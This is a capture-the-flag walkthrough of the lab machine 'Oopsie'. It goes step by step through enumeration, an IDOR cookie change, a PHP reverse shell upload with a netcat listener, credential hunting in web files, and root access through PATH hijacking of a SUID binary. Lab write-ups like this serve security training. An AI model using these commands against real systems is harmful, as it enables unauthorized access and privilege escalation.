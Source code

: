 # CTF Walkthrough: Oopsie

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Information Gathering](#2-information-gathering)
- [3. Foothold](#3-foothold)
- [4. Lateral Movement](#3-lateral-movement)
- [5. Privilege Escalation](#4-privilege-escalation)

---

## 1. Introduction

**Category:** Burpsuite, Cookie Manupulation, Gobuster dir, File Upload, Reverse shell, Netcat, SUID Exploitation, Path Hijacking, Insecure Direct Object Reference (IDOR)
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Information Gathering

### 2.1. Initial Enumeration
- **Running Services**
    - Command: `nmap -sV -sC 10.129.167.61`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey:
            |   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
            |   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
            |_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
            80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
            |_http-server-header: Apache/2.4.29 (Ubuntu)
            |_http-title: Welcome
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

            Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
            Nmap done: 1 IP address (1 host up) scanned in 305.12 seconds
            ```
- **Add to /etc/hosts**
    - Command: `sudo vim /etc/hosts`
    - Command: `10.129.167.61 oopsie.htb`

- **Intercept traffic with Burpsuite:**
    - Use FoxyProxy with 127.0.0.1:8080
    - Download certificate from http://burpsuite
    - Under Target > Site map:
        - /cdn-cgi/login

- **Visit http://oopsie.htb/cdn-cgi/login**
    - Login as Guest

- **IDOR**
    - Go to Account, change url ...&id=2 to ...&id=1
    - Open developer console > Storage > Cookies
    - Change Value from 2233 -> 34322
    - You can now access Uploads tab

## 3. Foothold

- **Create a reverse shell in PHP**
    - Source: revshells.com
    - Source: /usr/share/webshells/php

- **Finding the uploaded reverse shell file**
    - Command: `gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u oopsie.htb`
        - Output:
            ```
            /uploads              (Status: 301) [Size: 312] [--> http://oopsie.htb/uploads/]
            Progress: 4744 / 4745 (99.98%)
            ===============================================================
            Finished
            ===============================================================
            ```

- **Reverse shell**
    - Start Netcat
        - Command: `nc -lvnp 1261`
    - Curl 
        - Command: `curl oopsie.htb/uploads/revshell.php`
    - Interactive Shell:
        - Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
        - Ctrl + Z 
        - Command: stty raw -echo; fg
        - enter
        - Command: export TERM=xterm-256color

- **User Flag**
    - Command: `cat /home/robert/user.txt`
        - Output:
            ```
            f2c74ee8db7983851ab2a96a44eb7981
            ```

## 4. Lateral Movement
- **Find credentials**:
    - Command: `cd /var/www/html/cdn-cgi/login`
    - Command: `grep -i pass* *`
        - Output:
            ```
            index.php:if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
            index.php:<input type="password" name="password" placeholder="Password" />
            ```
    - Command: `cat /etc/passwd`
        - Output:
            ```
            robert:x:1000:1000:robert:/home/robert:/bin/bash
            ```
- **Log in as Robert**
    - Command: `su robert`
    - Password: MEGACORP_4dm1n!!
    - Incorrect Login

- **Find credentials**:
    - Command: `cat db.php`
        - Output:
            ```
            <?php
            $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
            ?>
            ```

- **Log in again as Robert**
    - User: robert
    - Password: M3g4C0rpUs3r!


## 5. Privilege Escalation
- Check elevating Privileges
    - Command: `sudo -l`
        - Output:
            ```
            Sorry, user robert may not run sudo on oopsie.
            ```
    - Command: `id`
        - Output:
            ```
            uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
            ```

- **SUID exploit**
    - Command: `find / -group bugtracker 2>/dev/null`
        - Output:
            ```
            /usr/bin/bugtracker
            ```
    - Command: `bugtracker`
        - Output:
            ```
            ------------------
            : EV Bug Tracker :
            ------------------

            Provide Bug ID: test
            ---------------

            cat: /root/reports/test: No such file or directory
            ```
        - The tool is accepting user input as a name of the file that will be read using the cat command, however, it does not specifies the whole path to file cat and thus we might be able to exploit this. 

    - Command: `ls -la /usr/bin/bugtracker`
        - Output:
            ```
            -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
            ```

    - Command: `file /usr/bin/bugtracker`
        - Output:
            ```
            /usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux
            3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
            ```
        - There is a suid set on that binary, which is a promising exploitation path.

    - We navigate to /tmp, create a new cat executable, with /bin/sh
        - Command: `cd /tmp`
        - Command: `echo /bin/sh > cat`
        - Command: `chmod +x cat`
        - Command: `export PATH=/tmp:%PATH`
    
    - **Root Flag**:
        - Commnad: `bugtacker`
            - Output:
                ```
                #
                ```
        - Command: `/bin/cat /root/root.txt`
            - Output:
                ```
                af13b0bee69f8a877c3faf667f7beacf
                ```




